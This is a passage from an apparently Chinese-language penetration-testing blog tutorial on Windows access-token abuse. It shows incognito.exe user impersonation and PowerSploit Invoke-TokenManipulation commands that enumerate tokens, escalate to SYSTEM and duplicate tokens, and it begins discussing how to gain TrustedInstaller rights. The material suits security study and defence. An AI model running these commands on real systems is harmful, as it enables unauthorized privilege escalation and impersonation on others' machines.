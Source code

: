 伪造用户：

```
incognito.exe execute -c "WIN-R7MM90ERBMD\b" cmd.exe
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-30/3-3.png)


## 0x05 Invoke-TokenManipulation.ps1用法
---

**下载地址：**

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1

原理和功能同incognito类似，能够实际提权和降权

列举token：`Invoke-TokenManipulation -Enumerate`

提权至system：`Invoke-TokenManipulation -CreateProcess "cmd.exe" -Username "nt authority\system"`

复制进程token：`Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId 500`

复制线程token：`Invoke-TokenManipulation -CreateProcess "cmd.exe" -ThreadId 500`

还有更多用法可参考该脚本说明

实际测试略

## 0x06 利用token获得TrustedInstaller权限
---

在Windows系统中，即使获得了管理员权限和system权限，也不能修改系统文件

因为Windows系统的最高权限为`TrustedInstaller`

例如路径`C:\Windows\servicing`

使用system权限无法在该路径创建文件

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-30/4-1.png)

查看文件夹属性，显示system不具有写入权限，只有`TrustedInstaller`可以

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-30/4-2.png)

关于如何获得TrustedInstaller权限，可参考James Forshaw的这篇文章，很值得学习

https://tyranidslair.blogspot.nl/2017/08/the-art-of-becoming-trustedinstaller.html

这里对其中的一个实例做测试，进而找到其他实现方法
